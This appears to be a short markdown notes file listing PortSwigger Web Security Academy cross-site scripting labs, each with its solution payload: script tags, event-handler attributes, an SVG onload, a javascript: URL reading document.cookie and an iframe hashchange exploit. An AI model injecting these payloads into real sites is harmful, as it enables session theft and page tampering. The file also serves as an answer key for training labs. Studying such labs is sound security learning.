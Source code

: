 # Cross-Site Scripting (XSS)  

## PortSwigger  

XSS Cheat Sheet  
[https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)  

XSS Labs  
[https://portswigger.net/web-security/all-labs#cross-site-scripting](https://portswigger.net/web-security/all-labs#cross-site-scripting)  

### Reflected XSS  
Reflected XSS into HTML context with nothing encoded  
[https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)
```
<script>alert(1)</script>
```  

Reflected XSS into attribute with angle brackets HTML-encoded  
[https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded)  
```
"onmouseover="alert(1)
```  

### Stored XSS  
Stored XSS into HTML context with nothing encoded  
[https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded)
```
<script>alert(1)</script>
```  

### DOM XSS  

DOM XSS in `document.write` sink using source `location.search`  
[https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink)  
```
"><svg onload=alert(1)>
```  

DOM XSS in `innerHTML` sink using source `location.search`  
[https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink)  
```
<img src=1 onerror=alert(1)>
```  

DOM XSS in jQuery anchor `href` attribute sink using `location.search` source  
[https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink)  
```
javascript:alert(document.cookie)
```  

DOM XSS in jQuery selector sink using a `hashchange` event  
[https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event)  
```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```  
